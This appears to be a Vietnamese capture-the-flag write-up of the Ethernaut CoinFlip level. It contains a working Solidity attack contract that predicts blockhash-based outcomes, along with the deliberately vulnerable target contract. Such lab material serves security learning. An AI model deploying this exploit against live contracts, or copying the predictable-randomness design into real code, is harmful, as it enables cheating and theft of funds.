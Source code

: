 ### Kết luận
- Không nên để lộ thuật toán của Contract vì kẻ tấn công sẽ có thể tạo contract giải mã các thuật toán đó.
### Contract FlipHack
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface ICoinFlip{
    function flip(bool _guess) external returns (bool);
}
contract FlipAttack{
    ICoinFlip public FlipChallenge;
    constructor(address _challengeAddress){
        FlipChallenge = ICoinFlip(_challengeAddress);
    }
    function predictAttack() external payable{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;
        bool success = FlipChallenge.flip(side);
        require(success, "Flip that bai");

    }
}
```
### Contract CoinFlip
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
![image](https://github.com/user-attachments/assets/2b49c3b9-a23e-418e-b569-bf54c7112ab4)

